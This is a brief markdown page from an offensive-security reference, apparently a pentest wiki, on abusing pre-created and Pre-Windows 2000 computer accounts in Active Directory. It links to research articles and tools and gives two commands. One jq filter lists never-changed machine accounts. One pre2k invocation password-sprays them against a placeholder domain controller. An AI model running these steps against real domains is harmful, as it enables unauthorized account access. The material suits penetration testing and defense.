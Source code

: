 ```yaml
---
description: Pre-created Computer Accounts & Pre-Windows 2000
---
```


# Pre-created Computers Abuse




## ACL Abuse on Pre-Windows 2000 Computers

- [https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)
- [https://www.optiv.com/insights/source-zero/blog/diving-deeper-pre-created-computer-accounts](https://www.optiv.com/insights/source-zero/blog/diving-deeper-pre-created-computer-accounts)
- [https://github.com/garrettfoster13/pre2k](https://github.com/garrettfoster13/pre2k)
- [https://github.com/eversinc33/Invoke-Pre2kSpray](https://github.com/eversinc33/Invoke-Pre2kSpray)

Search for machines that never updated their password:

```
$ cat 19700101000000_users.json | jq '.data[].Properties | select(.enabled == true and .pwdlastset == 0) | .name' -r > pre2k.txt
```

Initiate a pitchfork spray against them:

```
$ pre2k unauth -d megacorp.local -dc-ip 192.168.1.11 -inputfile pre2k.txt -sleep 10 -jitter 30 -threads 1
```




## ACL Abuse on Pre-created Computers

- [https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/](https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/)
